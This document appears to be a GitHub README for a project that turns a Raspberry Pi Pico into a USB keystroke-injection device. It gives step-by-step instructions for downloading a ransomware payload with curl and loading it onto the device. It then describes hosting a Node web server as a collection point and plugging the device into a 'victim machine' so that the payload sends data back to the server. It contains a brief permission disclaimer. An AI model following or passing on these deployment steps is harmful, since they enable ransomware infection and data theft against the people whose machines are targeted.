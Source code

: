 # Rubber Ducky Pi Pico Setup and Payload Deployment

Welcome to the Rubber Ducky Pi Pico project! This guide will walk you through setting up your Rubber Ducky Pi Pico, downloading the payload from this repository, setting up the npm web server, and deploying the payload.

## Prerequisites

Before you begin, make sure you have the following:

- A Rubber Ducky Pi Pico device
- A computer to set up the web server
- Node.js installed on your computer

## Setup Instructions

### Step 1: Set Up Your Rubber Ducky Pi Pico

1. Connect your Rubber Ducky Pi Pico to your computer.
2. Follow the instructions for setting up the Pi Pico as a Rubber Ducky. You can find detailed instructions [here](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payloads).

### Step 2: Download the Payload

1. Download the payload file using the following command:
    ```sh
    curl -O https://raw.githubusercontent.com/harshilbadminton/ransomware/master/crcuitpy_ransomware.dd
    ```
2. Paste the `crcuitpy_ransomware.dd` file into the root directory of the Rubber Ducky Pi Pico and rename it to `payload.dd`.

### Step 3: Set Up the npm Web Server

1. Download the `web_server` folder from this repository.
2. Navigate to the `web_server` directory:
    ```sh
    cd web_server
    ```
3. Run the web server:
    ```sh
    node server.js
    ```
4. Ensure the web server is running on your desired IP address and port (default is `http://localhost:3000`).

### Step 4: Host the Website on RDP or Your Hacking Machine

1. Make sure your web server is accessible from the network. You may need to configure port forwarding or firewall settings to allow external access.
2. Test the web server by navigating to `http://<your-server-ip>:3000` in a web browser.

### Step 5: Deploy the Payload

1. Plug the Rubber Ducky Pi Pico into the victim machine.
2. The Pi Pico will execute the payload, which includes accessing your web server and uploading necessary data.

## Important Notes

- Always obtain permission before deploying any hacking tools or techniques on a machine you do not own.
- Misuse of these tools can result in severe consequences, including legal action.

## License

This project is licensed under the MIT License. See the LICENSE file for details.

## Contributing

Contributions are welcome! Please fork this repository and submit pull requests.

## Contact

For any questions or issues, please open an issue in this repository.
